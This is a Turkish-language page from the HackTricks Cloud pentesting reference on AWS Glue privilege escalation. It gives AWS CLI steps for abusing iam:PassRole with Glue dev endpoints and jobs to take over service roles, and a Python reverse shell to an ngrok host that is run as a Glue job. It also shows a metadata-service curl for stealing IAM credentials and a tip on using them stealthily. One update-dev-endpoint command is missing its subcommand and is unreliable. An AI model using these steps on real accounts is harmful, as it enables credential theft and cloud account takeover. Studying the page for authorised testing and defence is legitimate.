# AWS - Glue Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izinlere sahip kullanıcılar, **mevcut bir hizmet rolünü Glue tarafından üstlenilebilir şekilde atayarak yeni bir AWS Glue geliştirme uç noktası kurabilirler**.

Kurulumdan sonra, **saldırgan uç noktanın örneğine SSH ile bağlanabilir** ve atanan rolün IAM kimlik bilgilerini çalabilir:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Gizlilik amacıyla, Glue sanal makinesi içindeki IAM kimlik bilgilerini kullanmanız önerilir.

**Olası Etki:** Belirtilen glue hizmet rolüne privesc.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izne sahip kullanıcılar, **mevcut bir Glue geliştirme** uç noktasının SSH anahtarını **değiştirebilir**, bu da ona SSH erişimi sağlar. Bu, saldırganın uç noktanın bağlı rolünün ayrıcalıklarıyla komutlar çalıştırmasına olanak tanır:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Olası Etki:** Kullanılan glue hizmet rolüne privesc.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** ile birlikte **`glue:CreateJob` veya `glue:UpdateJob`** ve **`glue:StartJobRun` veya `glue:CreateTrigger`** yetkilerine sahip kullanıcılar, herhangi bir **Glue hizmet hesabı** ekleyerek **AWS Glue işini oluşturabilir veya güncelleyebilir** ve işin yürütülmesini başlatabilir. İşin yetenekleri, ters bir shell kurmak için istismar edilebilecek rastgele Python kodu çalıştırmayı içerir. Bu ters shell daha sonra Glue işine ekli olan **IAM kimlik bilgilerini** dışarı aktarmak için kullanılabilir ve bu da o rolün izinlerine dayalı olarak potansiyel yetkisiz erişim veya eylemlere yol açabilir:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Olası Etki:** Belirtilen glue hizmet rolüne privesc.

### `glue:UpdateJob`

Sadece güncelleme izni ile bir saldırgan, zaten ekli olan rolün IAM Kimlik Bilgilerini çalabilir.

**Olası Etki:** Ekli olan glue hizmet rolüne privesc.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
